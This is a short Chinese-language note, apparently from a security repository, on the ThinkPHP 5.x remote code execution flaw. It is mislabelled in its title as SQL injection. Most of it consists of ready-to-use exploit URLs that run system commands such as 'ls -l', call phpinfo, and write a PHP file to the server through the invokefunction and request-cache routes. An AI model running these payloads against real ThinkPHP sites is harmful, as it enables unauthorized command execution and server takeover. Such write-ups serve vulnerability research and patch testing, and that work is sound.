




# ThinkPHP5 SQL注入漏洞

## 0x01 简介
ThinkPHP官方2018年12月9日发布重要的安全更新，修复了一个严重的远程代码执行漏洞。该更新主要涉及一个安全更新，由于框架对控制器名没有进行足够的检测会导致在没有开启强制路由的情况下可能的getshell漏洞，受影响的版本包括5.0和5.1版本(ThinkPHP 5.x (v5.0.23及v5.1.31以下版本)


## 0x02 漏洞利用

### 0x001 列目录


```php
http://127.0.0.1/public/index.php?s=/index/\think\request/cache&key=ls%20-l|system
```

```php
http://127.0.0.1/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls%20-l
```



### 0x002 php info
```go
http://127.0.0.1/public/index.php?s=/index/\think\request/cache&key=1|phpinfo
```




### 0x003 
```php
http://127.0.0.1/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=info.php&vars[1][]=%3C?php%20phpinfo();?%3E
```








[ThinkPHP 5.x (v5.0.23及v5.1.31以下版本) 远程命令执行漏洞利用（GetShell） | VULNSPY](http://www.vulnspy.com/cn-thinkphp-5.x-rce/thinkphp_5.x_(v5.0.23%E5%8F%8Av5.1.31%E4%BB%A5%E4%B8%8B%E7%89%88%E6%9C%AC)_%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%EF%BC%88getshell%EF%BC%89/)
[Thinkphp漏洞跟踪 - SecPulse.COM | 安全脉搏](https://www.secpulse.com/archives/93431.html)
